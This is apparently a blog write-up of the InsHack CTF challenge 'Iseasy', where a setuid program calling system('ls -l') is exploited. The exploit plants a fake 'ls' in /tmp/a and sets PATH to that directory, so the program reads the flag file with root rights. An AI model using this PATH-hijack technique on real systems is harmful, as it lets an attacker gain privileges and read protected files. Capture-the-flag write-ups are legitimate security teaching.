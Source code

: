 ```yaml
---
title: "InsHack -- Iseasy Writeup"
categories:
  - InsHack
tags:
  - CTF
  - pwn
---
```


> My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me? ssh <you_ssh_user>@pwn1.ctf.insecurity-insa.fr

<div class="notice--info">
<strong>Name</strong>: Iseasy<br>
<strong>Category</strong>: pwn<br>
<strong>Points</strong>: 75<br>
<strong>Solves</strong>: 127<br>
<strong>Given</strong>: `Iseasy`, `vuln.c`<br>
</div>


# Solution
The whole source code is just this litle snippet:
```c
int main() {
    system("ls -l");
}
```

This simply lists the files in the current directory. <br>
Very importantly the program is running with **setuid**, meaning the executable **runs as root** even if a normal user runs it. But how can this harm anyone if it just lists a directory?

Well, the program will run the executable `ls` but how does it find it? It uses the PATH environment variable.<br>
That means that if we are able to point it to our `ls` it would just run `our/ls` and not `/bin/ls`!

So the solution goes something like this:
 - Create a file named `ls` in the `/tmp/a` directory.
```
mkdir /tmp/a
touch /tmp/a/ls
```

 - Write in `/tmp/a/ls`:
```
/bin/cat $PWD/flag
```

 - And now if we just change the PATH environment variable to point to our `ls` it should work:
```bash
export PATH=/tmp/a
./vuln
```

**IT WORKED!**
